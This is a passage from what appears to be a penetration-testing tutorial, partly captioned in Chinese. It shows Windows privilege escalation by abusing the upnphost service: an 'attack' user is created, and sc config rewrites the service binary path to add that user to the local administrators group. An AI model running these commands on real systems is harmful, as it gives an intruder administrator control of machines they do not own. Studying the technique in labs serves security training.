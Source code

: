     ![How to do it...](img/image_09_019.jpg)

5.  Once that is done, we see a service not responding error. However, this was bound to happen: since the binary path is incorrect, it will try to execute the binary path using the system privileges. In this scenario, it should have created a user. Let's check by issuing the following command:

    ```
    net user

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_020.jpg)

6.  The `attack` user was successfully created; however, it will be a low-level user. Let us rewrite the binary path. Start and stop the UPnP activity again and get him/her admin privileges:

    ```
    sc config upnphost binpath= "net localgroup administrators        attack/add"
          net stop upnphost
          net start upnphost

    ```

    输出将如以下屏幕截图所示：
